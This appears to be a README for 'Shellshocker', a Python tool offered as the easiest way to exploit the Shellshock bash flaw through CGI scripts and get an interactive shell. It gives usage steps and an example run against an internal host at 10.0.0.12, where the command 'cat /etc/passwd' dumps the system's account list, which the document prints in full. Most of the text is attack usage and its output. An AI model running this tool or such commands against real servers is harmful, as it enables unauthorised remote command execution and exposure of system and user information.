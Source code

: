 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easyest way to use it, you can use "Shellshocker".
Avoid tinkering with the user-agent and feels like a shell directly.

Using:
  1. Run the script with python
    "python shellshocker.py http://exam.com/cgi-bin/cat"

  2. Hit command and press enter:
    "cat /etc/passwd"

  3. Read the output :)

Example:

python shellshoker.py http://10.0.0.12:591/cgi-bin/cat

Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
